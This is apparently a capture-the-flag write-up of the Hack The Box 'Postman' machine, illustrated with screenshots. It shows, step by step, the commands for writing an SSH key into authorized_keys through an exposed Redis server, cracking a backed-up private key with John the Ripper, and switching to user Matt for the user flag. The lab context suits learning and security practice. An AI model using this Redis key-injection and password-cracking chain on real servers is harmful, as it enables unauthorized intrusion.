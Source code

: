 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**

authorized_keys directory is here 

![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config shows Matt is a denied login 

![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>
![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 

![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)


